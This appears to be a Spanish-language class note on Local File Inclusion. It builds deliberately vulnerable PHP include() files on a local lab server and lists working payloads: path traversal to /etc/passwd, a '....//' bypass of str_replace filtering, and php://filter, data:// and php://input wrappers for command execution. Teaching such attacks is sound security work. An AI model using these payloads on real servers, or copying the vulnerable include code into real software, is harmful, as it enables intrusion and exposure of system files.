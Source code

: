 # Local File Inclusion (LFI)

La vulnerabilidad **Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como “**Path Traversal**” y se utiliza comúnmente en ataques de LFI.

En el ataque de Path Traversal, el atacante utiliza caracteres especiales y caracteres de escape en los parámetros de entrada para navegar a través de los directorios del servidor web y acceder a archivos en ubicaciones sensibles del sistema.

Por ejemplo, el atacante podría incluir “**../**” en el parámetro de entrada para navegar hacia arriba en la estructura del directorio y acceder a archivos en ubicaciones sensibles del sistema.

Para prevenir los ataques LFI, es importante que los desarrolladores de aplicaciones web validen y filtren adecuadamente la entrada del usuario, limitando el acceso a los recursos del sistema y asegurándose de que los archivos sólo se puedan incluir desde ubicaciones permitidas. Además, las empresas deben implementar medidas de seguridad adecuadas, como el cifrado de archivos y la limitación del acceso de usuarios no autorizados a los recursos del sistema.

A continuación, se os proporciona el enlace directo a la herramienta que utilizamos al final de esta clase para abusar de los ‘**Filter Chains**‘ y conseguir así ejecución remota de comandos:

* **PHP Filter Chain Generator**: [https://github.com/synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php\_filter\_chain\_generator)

## Prueba de Concepto LFI

Dentro de la ruta /var/www/html podemos crear un archivo.php para hacer la prueba de la **vulnerabilidad**:

```php
<?php
	$filename = $_GET['filename'];
	include($filename);
?>
```

Lo que consiste el archivo.php és que con el metodo GET poder pasar una entrada con el parametro filename.

* Iniciamos el servicio http con **apache2**:

```bash
❯ service apache2 start
❯ lsof -i :80
COMMAND     PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
apache2    9429     root    4u  IPv6  49153      0t0  TCP *:http (LISTEN)
apache2    9431 www-data    4u  IPv6  49153      0t0  TCP *:http (LISTEN)
apache2    9432 www-data    4u  IPv6  49153      0t0  TCP *:http (LISTEN)
apache2    9433 www-data    4u  IPv6  49153      0t0  TCP *:http (LISTEN)
apache2    9434 www-data    4u  IPv6  49153      0t0  TCP *:http (LISTEN)
apache2    9435 www-data    4u  IPv6  49153      0t0  TCP *:http (LISTEN)
apache2   11047 www-data    4u  IPv6  49153      0t0  TCP *:http (LISTEN)
```

* En el navegador entramos a nuestro servidor web y en el archivo.php le pasamos como parametro el **filename** por ejemplo el archivo **/etc/passwd** y veremos el contenido del archivo:

**➜** `http://localhost/index.php?filename=/etc/passwd`

### Directory path Traversal

Modificaremos el archivo.php anterior que en teoria no podriamos hacer un LFI bàsico como el del anterior:

```php
<?php
    $filename = $_GET['filename'];
    include("/var/www/html/" . $filename); // /var/www/html/../../../../../etc/passwd
?>
```

* Pero haciendo un directory path traversal que es para ir a la raiz del sistema y asi poder ver el contenido del archivo deseado:

**➜** `http://localhost/index.php?filename=../../../../../../etc/passwd`

Tambien en php existe un metodo llamado str\_replace que remplaça una cadena que contega los caracteres deseados:

```php
❯ php --interactive
Interactive mode enabled

php > echo str_replace("../", "", "../../../../../../etc/passwd");
etc/passwd
```

Como vemos en el ejemplo anterior vemos que la cadena se remplaza en **etc/passwd** por lo tanto la ruta no existe pero que pasa si le metemos una **....//** mas delante, pues que ahora si existe la ruta:

```php
php > echo str_replace("../", "", "....//....//....//....//....//etc/passwd");
../../../../../etc/passwd
```

Entonces modificamos el archivo.php para incorporar el str\_replace:

```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename); // /var/www/html/....//....//....//....//..../etc/passwd
    include("/var/www/html/" . $filename); // /var/www/html/../../../../../etc/passwd
?>
```

* Burlar el str\_replace:

**➜** `http://localhost/index.php?filename=....//....//....//....//....//etc/passwd`

#### Wrappers

* Convert archivo en base 64:

**➜** `php://filter/convert.base64-encode/resource=index.php`

* Ver contenido del archivo sin que lo interprete:

**➜** `php://filter/convert.iconv.utf-8.utf-16/resource=index.php`

* Ejecutar comandos enviando la peticion por **GET**

**➜** `/?filename=data://text/plain;base64,cadenaBase64`:

* Ejecutar comandos enviando la peticion por **POST** con `<?php system("comando"); ?>`:

**➜** `/?filename=php://input`
